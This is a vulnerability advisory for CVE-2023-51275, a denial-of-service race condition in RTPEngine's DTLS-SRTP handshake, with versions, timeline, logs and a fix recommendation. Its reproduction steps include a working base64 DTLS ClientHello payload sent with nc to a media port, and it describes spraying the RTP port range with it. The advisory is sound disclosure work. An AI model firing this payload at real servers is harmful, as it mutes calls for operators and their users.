


# RTPEngine susceptible to Denial of Service via DTLS Hello packets during call initiation

- Fixed versions: mr12.1.1.2, mr12.0.1.3, mr11.5.1.16, mr10.5.6.3, mr10.5.6.2, mr9.5.8.2, mr8.5.12.2
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2023-03-rtpengine-dtls-hello-race
- Vendor Patch: https://github.com/sipwise/rtpengine/commit/e969a79428ac4a15cdf1c0a1c6f266dbdc7e60b6
- Other references: CVE-2023-51275
- Tested vulnerable versions: mr11.5.1.6
- Timeline:
	- Report date: 2023-10-02
	- Triaged: 2023-10-02
	- Fix provided for testing: 2023-11-16
	- Enable Security verified fix: 2023-12-14
	- Vendor release with fix: 2023-12-14
	- Enable Security advisory: 2023-12-15

## TL;DR

When handling DTLS-SRTP for media setup, RTPEngine is susceptible to Denial of Service due to a race condition in the hello handshake phase of the DTLS protocol. This attack can be done continuously, thus denying new DTLS encrypted calls during the attack.

## Description

Our research has shown that key establishment for Secure Real-time Transport Protocol (SRTP) using Datagram Transport Layer Security Extension (DTLS)[^1] is susceptible to a Denial of Service attack due to a race condition. If an attacker manages to send a ClientHello DTLS message with an invalid CipherSuite (such as `TLS_NULL_WITH_NULL_NULL`) to the port on the RTPEngine server that is expecting packets from the caller, the media session is torn down.

This behavior was tested against RTPEngine version mr11.5.1.6, which was found to be vulnerable to this issue.

The following sequence diagram shows the normal flow (i.e. no attack) involving SIP, STUN and DTLS messages between a UAC (the Caller), Kamailio and an RTPEngine server capable of handling WebRTC calls.



In a controlled experiment, it was observed that when the Attacker sent a DTLS ClientHello to RTPEngine's media port from a different IP and port, RTPEngine gave an internal error and did not process the call any longer.



During a real attack, the attacker would spray a vulnerable RTPEngine server with DTLS ClientHello messages. The attacker would typically target the range of UDP ports allocated for RTP. When the ClientHello message from the Attacker wins the race against an expected ClientHello from the Caller, RTPEngine terminates the media session resulting in Denial of Service.

The following log shows that RTPEngine resets the DTLS connection context:

```
DEBUG: [... port 39910]: [ice] Received ICE/STUN response code 0 for candidate pair TUk2hmDhRdEwbjA1:6249488300:1 from 192.168.1.202:56083 to 192.168.1.202
DEBUG: [... port 39910]: [ice] Setting ICE candidate pair TUk2hmDhRdEwbjA1:6249488300:1 as succeeded
DEBUG: [... port 39910]: [ice] Best succeeded ICE pair with all components is TUk2hmDhRdEwbjA1:6249488300:1
DEBUG: [... port 39910]: [ice] ICE not completed yet, but can use pair TUk2hmDhRdEwbjA1:6249488300:1
INFO: [... port 39910]: [ice] ICE negotiated: peer for component 1 is 192.168.1.202:56083
INFO: [... port 39910]: [ice] ICE negotiated: local interface 192.168.1.202
DEBUG: [... port 39910]: [srtp] Processing incoming DTLS packet
ERR: [... port 39910]: [crypto] DTLS error: 1 (no shared cipher)
ERR: [... port 39910]: [srtp] DTLS error on local port 39910
DEBUG: [... port 39910]: [crypto] Resetting DTLS connection context
```

## Impact

Abuse of this vulnerability may lead to a massive Denial of Service on vulnerable RTPEngine servers for calls that rely on DTLS-SRTP. In practice, this results in all new calls appearing to be on mute.

## How to reproduce the issue

1. Run an RTPEngine instance with the following command:

    ```bash
	rtpengine -f \
		--interface=<interface> \
		--listen-ng="<listen-ng>" \
		--pidfile=<pidfile> \
		--port-min=35000 \
		--port-max=40000 \
		--log-stderr \
		--log-level=10
	```
1. Run a Kamailio instance with the following configuration:

	```bash
	debug=2
	log_stderror=yes

	memdbg=5
	memlog=5

	log_facility=LOG_LOCAL0

	loadmodule "pv.so"
	loadmodule "xlog.so"
	loadmodule "rtpengine.so"
	loadmodule "sl.so"
	loadmodule "tm.so"
	loadmodule "textops.so"
	loadmodule "siputils.so"

	modparam("rtpengine", "rtpengine_sock", "udp:<listen-ng>")

	alias="<alias>"

	request_route {
		xlog("L_INFO","$su\n");

		if ($rm == "INVITE") {
			$avp(caller_source)="$si:$sp";
		}

		if ($avp(caller_source) == "$si:$sp") {
			if ($rm == "INVITE") {
				rewritehostport("192.168.1.202:9999");
				rtpengine_manage("replace-origin replace-session-connection pad-crypto RTP/SAVPF ICE=force");

				t_relay();
			}
			break;
		} else {
			xlog("L_INFO","got a request from callee [$rm]\n");
			break;
		}
	}

	onreply_route{
		if ($avp(caller_source) != "$si:$sp") {
			if (!is_request()) {
				xlog("L_INFO","got a reply from callee [$rs $rr]\n");
				if has_body("application/sdp") {
					rtpengine_manage("replace-origin replace-session-connection pad-crypto RTP/SAVPF ICE=force");
				}
			}
			exit;
		}
	}
   ```

1. Send an INVITE message to Kamailio with WebRTC SDP:

    ```default
	INVITE sip:1000@192.168.1.202 SIP/2.0
	Via: SIP/2.0/WSS 192.168.1.202:36742;rport=36742;branch=z9hG4bK-jQcnXJadB2VGfGmQ
	Max-Forwards: 70
	From: <sip:1000@192.168.1.202>;tag=L9kc5NfpYG1u67cT
	To: <sip:1000@192.168.1.202>
	Contact: <sip:1000@192.168.1.202>
	Call-ID: DzGnBLt0z9SK3MC0
	CSeq: 5 INVITE
	Content-Type: application/sdp
	Content-Length: 385

	v=0
	o=- 1695296331 1695296331 IN IP4 192.168.1.202
	s=-
	t=0 0
	c=IN IP4 192.168.1.202
	m=audio 45825 UDP/TLS/RTP/SAVPF 0 8 101
	a=setup:active
	a=fingerprint:sha-256 49:05:98:B2:15:43:1C:9C:4F:29:07:60:F8:63:77:16:80:F9:44:C0:97:8E:E5:48:D6:71:B4:03:10:85:D6:E3
	a=rtpmap:0 PCMU/8000/1
	a=rtpmap:8 PCMA/8000/1
	a=rtpmap:101 telephone-event/8000
	a=rtcp-mux
	a=rtcprsize
	a=sendrecv
	```
1. Note RTPEngine's media port and IP values, which will be used as the `<rtpengine-ip>` and `<media-port>` parameters by the Attacker
1. Send a DTLS ClientHello message from a (attacker-controlled) host, which is different from the Caller but has network access to the RTPEngine server

    ```bash
	CLIENT_HELLO="Fv7/AAAAAAAAAAAAfAEAAHAAAAAAAAAAcP79AAA" 
	CLIENT_HELLO="${CLIENT_HELLO}AAG4HCVaUNVbYVmxuqdn2WyCgtTijhZ+WheP/+H"
	CLIENT_HELLO="${CLIENT_HELLO}4AAAACAAABAABEABcAAP8BAAEAAAoACAAGAB0AF"
	CLIENT_HELLO="${CLIENT_HELLO}wAYAAsAAgEAACMAAAANABQAEgQDCAQEAQUDCAUF"
	CLIENT_HELLO="${CLIENT_HELLO}AQgGBgECAQAOAAkABgABAAgABwA="
	echo -n "${CLIENT_HELLO}" | base64 --decode | nc -u <rtpengine-ip> <media-port>
	```
1. Observe that RTPEngine reports that the DTLS context has been reset

## Solution and recommendations

To address this vulnerability, upgrade RTPEngine to the latest version which includes the security fix. The solution implemented is to drop all packets from addresses that have not been validated by an ICE check.


## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

[^1]: Datagram Transport Layer Security (DTLS) Extension to Establish Keys for the Secure Real-time Transport Protocol (SRTP) https://datatracker.ietf.org/doc/html/rfc5764
